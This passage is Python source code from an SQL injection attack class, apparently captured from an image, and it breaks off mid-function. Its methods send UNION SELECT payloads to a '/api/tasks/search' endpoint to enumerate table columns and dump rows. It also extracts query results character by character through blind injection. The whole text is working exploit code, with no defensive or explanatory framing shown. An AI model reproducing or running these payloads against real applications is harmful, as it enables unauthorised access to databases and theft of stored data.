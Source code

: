 ```python
    def enumerate_columns(self, table_name):
        """Enumerate columns for a specific table"""
        payload = f"' UNION SELECT column_name FROM information_schema.columns WHERE table_name='{table_name}'--"
        
        try:
            response = self.session.get(
                f"{self.base_url}/api/tasks/search",
                params={'query': payload}
            )
            
            if response.status_code == 200:
                columns = [item.get('column_name') for item in response.json() if 'column_name' in item]
                print(f"✓ Found columns in {table_name}: {columns}")
                return columns
                
        except Exception as e:
            print(f"✗ Column enumeration failed for {table_name}: {e}")
        
        return []
    
    def extract_data(self, table_name, columns):
        """Extract data from specified table and columns"""
        column_list = ','.join(columns[:5])  # Limit to first 5 columns
        payload = f"' UNION SELECT {column_list} FROM {table_name}--"
        
        try:
            response = self.session.get(
                f"{self.base_url}/api/tasks/search",
                params={'query': payload}
            )
            
            if response.status_code == 200:
                data = response.json()
                print(f"✓ Extracted {len(data)} records from {table_name}")
                return data
                
        except Exception as e:
            print(f"✗ Data extraction failed for {table_name}: {e}")
        
        return []
    
    def blind_extraction(self, query, max_length=100):
        """Extract data using blind SQL injection techniques"""
        result = ""
        
        for position in range(1, max_length + 1):
            for char_code in range(32, 127):  # Printable ASCII characters
                test_payload = f"' AND ASCII(SUBSTRING(({query}),{position},1))={char_code}--"
                
                try:
                    response = self.session.get(
                        f"{self.base_url}/api/tasks/search",
                        params={'query': test_payload},
                        timeout=5
                    )
                    
                    # Check if condition is true (application-specific logic)
                    if response.status_code == 200 and len(response.json()) > 0:
                        result += chr(char_code)
                        print(f"✓ Character {position}: {chr(char_code)} (Result so far: {result})")
```
